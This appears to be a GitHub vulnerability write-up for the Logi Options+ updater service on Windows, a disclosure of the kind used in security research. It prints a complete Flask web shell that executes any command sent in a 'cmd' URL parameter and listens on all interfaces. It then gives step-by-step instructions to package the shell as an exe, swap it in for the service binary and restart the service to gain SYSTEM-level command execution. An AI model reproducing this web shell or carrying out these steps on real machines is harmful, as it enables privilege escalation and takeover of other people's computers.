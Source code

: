 # windows Logi OptionsPlus OptionsPlusUpdaterService is Vulnerable Services

test on windows 11 22000.1098   Logi Options+ 1.0.5155

#Vulnerability reproduction

The first step：open services.msc find OptionsPlusUpdaterService
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic1.png)

Step 2：Prepare a malicious program
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic2.png)

    from flask import Flask, request
    import os

    app = Flask(__name__)

    @app.route('/')
    def hello_world():
        r = request.args.getlist('cmd')  #Reception? cmd= parameter
        a=os.popen(r[0])  #Execute system commands
        l = a.read()
        return l  #return

    if __name__ == '__main__':
        app.run(host='0.0.0.0', port=14145, debug=True)  #Listen HTTP port 14145



I was useing python3 flask write a malicious exe .It can listenHTTP port 14145 and execute system commands.
Using commands pyinstaller.exe --onefile --windowed -F -w python_test.py make a malicious exe.


Step 3：Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe.
for me Logi OptionsPlus installation path is :C:\Program Files\LogiOptionsPlus
1.Delete the old logioptionsplus_updater.exe or anything to make logioptionsplus_updater.exe disappear
2.Put malware into Logi OptionsPlus installation path,and rename malware to logioptionsplus_updater.exe
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic3.png)

Step 3：Start the OptionsPlusUpdaterService
If OptionsPlusUpdaterService is already start you can restart it
![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic4.png)

Step 4：Wait OptionsPlusUpdaterService start and execute the system commands
When I see OptionsPlusUpdaterService start in Taskmgr.exe whit SYSTEM, Then I can Open browser input http://127.0.0.1:14145?cmd=whoami

Wait..........

for...

it.

NT SYSTEM

![image](https://github.com/happy0717/windows-Logi-OptionsPlus-OptionsPlusUpdaterService-is-Vulnerable-Services/blob/main/pic5.png)
